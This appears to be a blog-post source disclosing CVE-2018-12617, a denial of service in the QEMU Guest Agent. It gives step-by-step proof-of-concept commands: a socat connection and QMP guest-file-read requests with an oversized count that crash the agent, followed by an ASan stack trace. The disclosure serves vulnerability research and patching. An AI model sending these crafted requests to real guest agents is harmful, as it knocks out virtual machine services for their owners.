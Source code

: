 ```yaml
---
layout: post
title: "[CVE-2018-12617] QEMU Guest Agent Denial of Service"
comments: true
description: "QEMU Guest Agent Denial of Service"
keywords: "qemu, qemu-ga, dos, denial of service"
---
```


Exploit Title: QEMU Guest Agent Denial of Service<br>
Date: 2018-06-07<br>
Exploit Author: Fakhri Zulkifli (@d0lph1n98)<br>
Vendor Homepage: https://www.qemu.org/<br>
Software Link: https://www.qemu.org/download/<br>
Version: 2.12.50 and earlier<br>
Tested on: 2.12.50<br>
CVE : CVE-2018-12617<br>

QEMU Guest Agent 2.12.50 and earlier has an integer overflow causing a g_malloc0() call to trigger a segfault() call when trying to allocate a large memory chunk. The vulnerability can be exploited by sending a specific QMP command to the agent via the listening socket.

1st, execute the guest-agent using the following command:

```
$ qemu-ga -m unix-listen -p /tmp/qga.sock -t /tmp
```

2nd, on the other console, connect to the UNIX socket using socat:

```
$ socat unix-connect:/tmp/qga.sock -
```

3rd, enter the following QMP command:

```
{"execute":"guest-file-open", "arguments":{"path":"/tmp/poc","mode":"w+”}}
{"return": 1000}
{"execute":"guest-file-read", "arguments":{"handle":1000,"count":4294967295}}
```

The guest-file-read must be specified with the correct handle value (file descriptor). Different files will have different handle value.

```
#0 0x5598eed0a1af in calloc /home/user/llvm/projects/compiler-rt/lib/asan/asan_malloc_linux.cc:107
#1 0x7f2ce5d7d770 in g_malloc0 (/lib/x86_64-linux-gnu/libglib-2.0.so.0+0x4f770)
#2 0x5598eed84996 in qmp_marshal_guest_file_read /home/user/qemu/qga/qapi-generated/qga-qapi-commands.c:425:14
#3 0x5598eeda4fcf in do_qmp_dispatch /home/user/qemu/qapi/qmp-dispatch.c:119:5
#4 0x5598eeda4fcf in qmp_dispatch /home/user/qemu/qapi/qmp-dispatch.c:168
#5 0x5598eed59bff in process_command /home/user/qemu/qga/main.c:589:11
#6 0x5598eed59bff in process_event /home/user/qemu/qga/main.c:626
#7 0x5598eedb5f13 in json_message_process_token /home/user/qemu/qobject/json-streamer.c:105:5
#8 0x5598eee25d9b in json_lexer_feed_char /home/user/qemu/qobject/json-lexer.c:323:13
#9 0x5598eee25333 in json_lexer_feed /home/user/qemu/qobject/json-lexer.c:373:15
#10 0x5598eed5a95e in channel_event_cb /home/user/qemu/qga/main.c:659:9
#11 0x5598eed710c1 in ga_channel_client_event /home/user/qemu/qga/channel-posix.c:92:23
#12 0x7f2ce5d78049 in g_main_context_dispatch (/lib/x86_64-linux-gnu/libglib-2.0.so.0+0x4a049)
```
---
References:
1. https://lists.gnu.org/archive/html/qemu-devel/2018-06/msg03385.html
